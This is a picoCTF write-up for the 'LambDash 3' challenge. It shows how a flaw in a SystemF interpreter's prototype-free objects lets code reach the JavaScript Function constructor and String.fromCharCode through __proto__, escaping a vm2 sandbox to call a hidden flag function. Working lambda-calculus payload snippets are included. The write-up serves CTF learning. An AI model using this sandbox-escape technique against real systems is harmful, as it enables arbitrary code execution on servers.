 # LambDash 3
In this challenge we were given a site with an introduction to a variant of the Lambda Calculus language called SystemF, along with an online web shell. 

### Getting the source
First thing I did was sending an extremely large payload to the interpreter (endpoint: `/run`) to see what would happen. It returned a stack trace containing the path to the challenge files. I logged in to the picoCTF shell, zipped the whole directory, and downloaded it with scp. 

### Initial setup
We can see that this app is written in TypeScript and is running on NodeJS. I set it up locally to make exploiting and debugging easier. To do this, navigate to the directory named "problem" in source and run the following command:
```sh
tsc --build tsconfig.json && node --inspect ./dist/server.js
```

The app will be compiled and run on local port 4001. You can also debug it like any other Node app using Chromium DevTools by visiting [chrome-devtools://devtools/bundled/inspector.html?experiments=true&v8only=true&ws=127.0.0.1:9229/**<uuid>**](chrome-devtools://devtools/bundled/inspector.html?experiments=true&v8only=true&ws=127.0.0.1:9229/<uuid>), where <uuid> is the UUID given to you when you run the app. 

### Analysis
Okay, now we're in possession of the app's source code and the app is running locally. Let us analyze what is this app doing. If you access `/problem/src/server.ts`, you can see the source of the `/run` endpoint:
```javascript
	app.post("/run", (req, res) => {
		let code = req.body.code;
		let ast: E; 
		try {
			ast = parse(code);
		} catch (e) {
			res.send(`Error -- code did not parse<br>${e.toString()}`);
			return;
		}
		let type: Type;
		try {
			type = typecheck(ast);
		} catch (e) {
			res.send(`Error -- code did not typecheck<br>${e.toString()}`);
			return;
		}
		let vm = new vm2.NodeVM({
			timeout: 1000,
			sandbox: {
				ast,
				hidden: {
					getFlag: ((f: string) => ((x: string) => {
						if (x === "if you can get this you deserve the flag -> abcd1234!@#$%^&*()'") {
							return f;
						}
						return "Bad! " + x;
					}))(process.env.FLAG)
				},
			},
			require: {
				context: "sandbox",
				external: ["./emulator", "immutable"],
				root: __dirname,
			},
		});
		try {
			let result = vm.run(new vm2.VMScript(`
				let emulator = require("${__dirname}/emulator");
				module.exports = emulator.resToString(emulator.default(ast));
			`));
			console.log(result);
			res.send(`Result:<br>${result}:${typeToString(type)}`);
		} catch (e) {
			console.log("Wut", e.stack);
			res.send(`Error -- failed to execute<br>${e}`);
		}

	})
```
It does a few things:
* It parses the received code to get AST (abstract syntax tree)
* It checks if all types in the program are okay
* It runs the program in a Node sandbox of some kind, while also passing an object containing the function that we're interested in:
```javascript
hidden: {
	getFlag: ((f: string) => ((x: string) => {
		if (x === "if you can get this you deserve the flag -> abcd1234!@#$%^&*()'") {
			return f;
		}
		return "Bad! " + x;
	}))(process.env.FLAG)
},
```
* It prints the result of the program to the user

As such, our objective is clear: it's to submit a piece of code to /run that would run `hidden.getFlag("if you can get this you deserve the flag -> abcd1234!@#$%^&*()'")` and return the result. Easy enough, isn't it? Well, I found it everything _but_ easy, as my knowledge of both JS and functional programming is pretty much non-existent. At this point I started learning from the provided tutorial, submitting different programs, analyzing them, analyzing the code of the interpreter (located in `/problem/src/emulator.ts`), and so on. It took me about 10 hours.

### Exploitation
LC = Lambda Calculus SystemF, the language used in this task
*While writing this solution, it occurred to me that my original solution was a bit needlessly complicated and contained some redundancy. This solution is slightly more reasonable. You can find the original payload that I used to solve this task in payload_old.txt.*
There is only one bug that we need to find in order to solve this task, and everything else is its consequence.
LC has tuples and optional types, both of which are implemented as JS objects. Therefore, if you have tuple consisting of int f and int g, it will internally exist as a JS object, such as:
```javascript
{
    f: 5
    g: 10
}
```
Optional type is very similar, except there is just one variable in it. When the interpreter wants to do something with an optional type, it iterates over the possible parameter names and checks if a parameter is present in the object (`object[name] != undefined`).
Objects to be used as tuples/optionals are created using this function (you can find it in `/problem/src/emulator.ts`):
```javascript
function getCleanObject(): { [key: string]: any } {
	let obj = {};
	for (let prop of Object.getOwnPropertyNames((obj as any).__proto__)) {
		(obj as any)[prop] = undefined;
	}
	(obj as any).__proto__ = undefined;
	return obj;
}
```
_Now comes the part that I still cannot fully comprehend, some help from a NodeJS expert would be greatly appreciated._
The most important part of the solution is to figure out that this function doesn't really work. I'm not sure why, but it probably has to do with Node internals. If you create an object using `a = getCleanObject()`, it will **still have** the `__proto__` attribute, instead of having it undefined, which means you can reference `a['__proto__']`. 
Knowing that in any optional the `__proto__` attribute is always set, we can define an optional with 
```< `__proto__ { `constructor { `constructor int }} + `val int>```, 
and proceed to create a new instance of it with `val` set to a number. While processing this optional, we can tell the interpreter to look for the `__proto__` attribute first. It will of course find it, thinking that it is a tuple containing an attribute called `constructor`, which in turn is another tuple containing an attribute called `constructor`. So, by extracting it, we do something like:
```javascript
a = {}
a['__proto__']['constructor']['constructor']
```
Which gives us the JavaScript function constructor. How to do it in LC? Here's the code:
```
(alias opta = < `__proto__ { `constructor { `constructor int -> (int -> int)}} + `val int -> (int -> int)> in
(lambda argb:opta.
    case(argb) {
        `__proto__ rr -> rr#`constructor#`constructor
        | `val rr -> rr}
)(`val (lambda xx:int.lambda xxx:int.xx) as opta))
```
I changed the parameter types from int to int -> (int -> int), because we need to call this constructor, and then call the function that it returns. So now we've fooled the interpreter into thinking that the JavaScript function constructor is a lambda expression taking an int and returning another lambda expression, which in turn takes an int and returns an int. Complicated, but now we're just one step away from victory, and the question is: how to pass a string to that function?

Well, LC doesn't have strings, so we have to implement them ourselves, which was easy compared to the rest of the task.
We can use the exact same trick as before, but this time let's retrieve the String.fromCharCode method instead.
In JS that would be:
```javascript
a['__proto__']['constructor']['name']['constructor']['fromCharCode']
```
As translated to LC:
```
(alias opta = < `__proto__ { `constructor { `name { `constructor { `fromCharCode int -> int}}}} + `val int -> int> in
(lambda argb:opta.
    case(argb) {
        `__proto__ r -> r#`constructor#`name#`constructor#`fromCharCode 
        | `val r -> r
    }
)(`val (lambda x:int.x) as opta))
```
We can then call this lambda by passing an int to it, and we receive the corresponding char (which the interpreter thinks is an int).
All that's left is to concatenate those chars using a different lambda, pass the string to the function constructor, and call the result. 
Example demonstrating the construction of a two char long string:
```
(lambda a : int.
lambda b : int.
    a + b)
((alias opta = < `__proto__ { `constructor { `name { `constructor { `fromCharCode int -> int}}}} + `val int -> int> in
(lambda argb:opta.
    case(argb) {
        `__proto__ r -> r#`constructor#`name#`constructor#`fromCharCode 
        | `val r -> r
    }
)(`val (lambda x:int.x) as opta)) 65)
((alias opta = < `__proto__ { `constructor { `name { `constructor { `fromCharCode int -> int}}}} + `val int -> int> in
(lambda argb:opta.
    case(argb) {
        `__proto__ r -> r#`constructor#`name#`constructor#`fromCharCode 
        | `val r -> r
    }
)(`val (lambda x:int.x) as opta)) 66)
```
After preparing the full payload and pasting it to the site, we got the flag, which I unfortunately didn't save anywhere :D
The full payload is available in payload.txt.